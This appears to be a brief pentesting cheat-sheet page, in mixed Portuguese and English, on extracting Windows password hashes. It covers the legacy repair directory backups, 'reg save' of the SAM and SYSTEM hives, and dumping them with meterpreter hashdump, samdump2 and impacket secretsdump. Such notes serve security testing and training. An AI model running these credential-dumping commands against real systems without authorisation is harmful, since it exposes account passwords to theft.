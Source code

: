 # Getting hashes on old systems

Pelo diretório Repair, funciona em sistemas mais antigos

{% code overflow="wrap" %}
```sh
#Directory
C:\WINDOWS\repair

This directory has the backup of the system file and the sam file, it may not be up to date.
```
{% endcode %}

Through the Windows registry

```
reg save hklm\system nome_do_arquivo_final
reg save hklm\sam nome_do_arquivo

#To dump these files
By meterpreter (msfconsole)
hashdump #It already brings all the information

#Inside Kali linux
samdump2 system sam

impacket-secretdump -sam sam_file -system system_file LOCAL

```

{% embed url="https://github.com/fortra/impacket/tree/master/impacket" %}
